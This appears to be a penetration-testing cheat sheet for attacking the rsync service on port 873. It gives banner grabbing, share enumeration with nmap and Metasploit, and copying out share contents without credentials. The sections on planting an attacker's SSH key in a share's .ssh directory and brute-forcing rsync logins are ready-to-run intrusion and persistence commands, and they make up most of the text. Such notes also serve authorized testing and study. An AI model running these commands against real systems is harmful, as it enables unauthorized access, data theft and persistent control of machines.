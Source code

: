 # 873 (rsync)

## Enumeration

### Banner

#### nc

```bash
nc -vn <IP> 873
```

### Modules

#### nmap

```bash
sudo nmap -sV --script "rsync-list-modules" -p 873 <IP>
```

#### Metasploit

```bash
msf> use auxiliary/scanner/rsync/modules_list
```

### rsync

Unauthenticated

```bash
rsync -av --list-only rsync://192.168.76.126/fox
rsync -av rsync://192.168.76.126/fox ./rsync/
```

Authenticated

```bash
rsync -av --list-only rsync://username@192.168.0.123/fox
rsync -av rsync://username@192.168.0.123:8730/fox ./rsync_shared
```

Upload a file (i.e. an authorized\_keys file to obtain access to a machine)

```bash
mkdir .ssh
ssh-keygen -f .ssh/fox-ssh -t ecdsa -b 521
cp .ssh/fox-ssh.pub .ssh/authorized_keys
rsync -av .ssh/ rsync://fox@192.168.76.126/fox/.ssh
```

## Brute Force

```bash
nmap -sV --script rsync-brute --script-args userdb=/var/usernames.txt,passdb=/var/passwords.txt -p 873 <IP>

```

